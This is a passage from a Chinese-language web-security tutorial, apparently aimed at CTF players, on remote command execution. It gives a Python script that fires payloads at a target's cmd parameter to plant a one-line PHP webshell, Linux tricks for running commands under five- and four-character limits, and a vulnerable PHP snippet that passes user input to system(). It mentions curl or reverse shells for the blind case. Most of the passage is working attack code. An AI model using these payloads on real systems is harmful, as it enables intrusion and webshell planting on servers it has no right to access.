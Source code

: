 
用python打payload，把上面的payload写入execpayload.txt里面

```python
import requests

url = "http://xxxxx/index.php?cmd={0}"
print("[+]start attack!!!")
with open("execpayload.txt", "r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()))
```

最终会在目录下生成1.php，里面就是一句话木马

如果是五位字符限制，则最后用

```
>ls\\
ls>a
>\ \\
>-t\\
>\>0

ls>>a

sh a
```

四位：

```
>f\>
>ht-
>sl
>dir
*>v
>rev
*v>0

cat 0
```

**这里是利用Linux的命令特性，起初在windows下搭建的环境需要修改成windows的终端命令**

### 无回显rce

无回显rce是远程服务器上执行命令后，前段不会显示执行结果。这个时候需要使用curl或反弹shell进行绕过

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```
